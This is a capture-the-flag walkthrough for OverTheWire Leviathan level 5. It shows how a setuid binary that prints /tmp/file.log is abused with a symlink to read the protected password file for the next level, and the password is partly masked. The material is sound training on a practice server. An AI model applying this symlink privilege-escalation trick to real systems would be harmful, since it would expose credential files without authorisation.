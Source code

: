 ```yaml
---
title: Overthewire Leviathan Level 5
date: '2022-03-02 23:15:00'
description: ''
categories: [OverTheWire, Leviathan]
tags: [overthewire, leviathan]
---
```


Solution for the Overthewire.org [Leviathan level 5](https://overthewire.org/wargames/leviathan/leviathan5.html){:target="\_blank"}

## Level Goal  

There is no information for this level, intentionally.

## Walkthrough

Login to the server using the password obtained from the previous level [Leviathan level 4]({% post_url 2022-03-02-leviathan4 %}).

username: `leviathan5`

```ssh
ssh leviathan5@leviathan.labs.overthewire.org -p 2223
```

With no description given first thing we do is check what is in the home directory.

```shell
leviathan5@leviathan:~$ ls -al
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan6 leviathan5 7560 Aug 26  2019 leviathan5
-rw-r--r--  1 root       root        675 May 15  2017 .profile
```

There is an executable file `leviathan5` with the suid bit set.
When we run `leviathan5` we get an error stating it cannot find `file.log`.

```shell
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
```

What happens if the file exists ? Let's create the file.

```shell
leviathan5@leviathan:~$ touch /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5

```

Nothing seems to have happened and the file is now deleted.

Let's try again but this time put some text in the file.

```shell
leviathan5@leviathan:~$ echo "Hello" >  /tmp/file.log

leviathan5@leviathan:~$ ./leviathan5
Hello
```

The contents of the file was printed to screen and the file then deleted.

Since `leviathan5` file runs with leviathan6 permissions we can create a symbolic link between the password file and file.log and print the password.

```shell
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log

leviathan5@leviathan:~$ ./leviathan5 
Uga*******
```
